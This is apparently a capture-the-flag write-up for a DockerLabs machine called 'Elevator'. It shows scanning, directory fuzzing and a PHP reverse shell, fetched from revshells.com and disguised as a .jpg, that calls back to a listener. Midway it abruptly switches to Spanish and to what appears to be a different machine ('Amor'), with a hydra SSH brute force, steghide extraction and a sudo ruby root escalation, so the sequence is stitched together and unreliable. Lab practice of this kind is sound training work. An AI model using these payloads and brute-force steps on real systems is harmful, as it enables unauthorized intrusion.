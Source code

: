 # Elevator Machine

Level -> Easy

Author -> [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

------------------
## Scanning & Enumeration 

We start by performing a general scan with **nmap** on the victim machine's IP to identify the open ports. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

We run a set of default scripts with **nmap** to gather more information related to the ports discovered in the previous scan.

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
```

We access the website to inspect it.

![image](https://github.com/user-attachments/assets/638d5eea-f884-48ff-a8a7-81d2d60049f3)

![image](https://github.com/user-attachments/assets/a4b792c1-8d57-4eb1-b3a4-6dac127a1c68)

![image](https://github.com/user-attachments/assets/09a22ca9-37fc-497b-82bc-6aa3b6855238)

After reviewing the page code and interacting with it, we found relevant information such as usernames: **daphne**, **velma**, **scooby**, **shaggy**

We performing a **fuzzing** with **gobuster**

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -x html,php,txt -s 200,301 -b ''
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 5647]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
```
We found the **javascript** and **themes** directories. After reviewing them, we encountered an unauthorized error and performed **fuzzing** on them.

```shell
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/common-and-spanish.txt -t 20 -x html,php,txt -b '' -s 200,301
---------------------------------------------------------------------------------
/archivo.html         (Status: 200) [Size: 3380]
/upload.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
```

Now we found the **archivo.html** and **upload.php** files and the **uploads** directory.

--------------
## Explotation

After reviewing the **archivo.html** page we realized that the form can upload **jpg**, and **jpeg**.

![image](https://github.com/user-attachments/assets/55b5577e-1995-4d60-97eb-15fe5b20ac0f)

We prepare the [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) and copy it as a **jpg** file 

Notice that we set the **172.17.0.1** and **4444** as a **IP** and **PORT** for listener

```shell
wget -O reverse.jpg 'https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash'
Saving to: ‘reverse.jpg’
reverse.jpg [ <=> ]   2.53K  --.-KB/s    in 0s      
2024-12-26 21:09:41 (5.82 MB/s) - ‘reverse.jpg’ saved [2590]
```
![image](https://github.com/user-attachments/assets/1872f317-00b9-48e5-ba2c-9710558af290)

![image](https://github.com/user-attachments/assets/a4d9f597-e9cf-40c2-969e-d40bdb017f94)

We start the listener 

Aplicamos fuerza bruta con **hydra** sobre los usuarios:

```shell
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
```

Encontramos las credenciales de carlota -> **carlota:babygirl**
Accedemos por ssh:

```shell
ssh carlota@172.17.0.2
```

Estamos dentro !

------------------------------
## Escalada de privilegios

En el directorio **/home/Desktop/fotos/vacaciones** de Carlota encontramos una imágen.

Nos la descargaremos para verla. Podemos usar **scp**:

```shell
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/albertomarcostic/Desktop/DockerLabs/Amor/content
```

Veremos si tiene algo oculto con la herramienta **steghide**:

```shell
steghide --extract -sf imagen.jpg
--------------------------------------
datos extrados e/"secret.txt".
```

Obtenemos un **secret.txt** con la siguiente información -> **ZXNsYWNhc2FkZXBpbnlwb24=**

Tiene pinta de **base64** así que lo decoficamos:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
-------------------------------------------------------
eslacasadepinypon
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en **root**:

```shell
su oscar
```

Conseguimos migrar al usuario **oscar**.
Ejecutamos **sudo -l** para ver si podemos ejecutar algo como otro usuario o como **root**:

```shell
sudo -l
------------------------------------------------
User oscar may run the following commands on 6ba86e9dc48a:
    (ALL) NOPASSWD: /usr/bin/ruby
```


Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins]()

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

```shell
cat /root/Desktop/THX.txt
-------------------------------
Gracias a toda la comunidad de Dockerlabs y a Mario por toda la ayuda proporcionada para poder hacer la máquina.
```
